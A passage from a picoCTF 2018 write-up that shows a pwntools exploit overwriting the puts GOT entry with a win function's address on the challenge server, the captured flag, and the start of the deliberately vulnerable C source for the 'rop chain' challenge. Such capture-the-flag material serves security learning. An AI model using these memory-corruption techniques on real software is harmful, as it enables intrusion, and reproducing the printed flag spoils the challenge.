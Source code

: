 ```python
HOST = '2018shell2.picoctf.com'
PORT = 23731

win_addr = '0x0804854b'
puts_got_addr = '0x0804a00c'

def exploit(r):
    addr = puts_got_addr
    val = win_addr

    r.sendlineafter('value?\n',addr) #takes str type
    r.sendlineafter('\n',val)  #takes str type
    r.interactive()
    return
```

```bash
picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_a8321d81}
```

## rop chain
Source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFSIZE 16

bool win1 = false;
bool win2 = false;


void win_function1() {
  win1 = true;
}

void win_function2(unsigned int arg_check1) {
  if (win1 && arg_check1 == 0xBAAAAAAD) {
    win2 = true;
  }
  else if (win1) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void flag(unsigned int arg_check2) {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
```